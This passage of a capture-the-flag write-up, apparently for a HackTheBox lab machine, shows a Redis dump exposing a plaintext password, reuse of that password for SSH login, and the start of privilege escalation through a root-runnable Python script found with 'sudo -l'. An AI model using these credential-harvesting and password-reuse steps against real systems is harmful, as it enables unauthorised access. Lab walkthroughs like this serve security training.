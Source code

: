 Get cooper keys :

```text
hgetall cooper.dooper

username
cooper.dooper
password
zooperdoopercooper
first-name
Cooper
last-name
Dooper
pro
false
```

So we have his blog password: zooperdoopercooper

Credentials :

| Username | email | Password           | Hash | Usage |
| -------- | ----- | ------------------ | ---- | ----- |
| ooper    |       | zooperdoopercooper |      | blog  | 

Using this password, we can reuse it to have a SSH access :

```shell
ssh cooper@microblog.htb
```

and we have a SSH access:

```text
id
uid=1000(cooper) gid=1000(cooper) groups=1000(cooper)
```

### Privilege Escalation

Let's enumerate the sudo from this user :

```shell
~$ sudo -l
```

```text
Matching Defaults entries for cooper on format:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
(root) /usr/bin/license
```

`/usr/bin/license` is a python script :

```python
#!/usr/bin/python3

import base64
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.fernet import Fernet
import random
import string
from datetime import date
import redis
import argparse
import os
```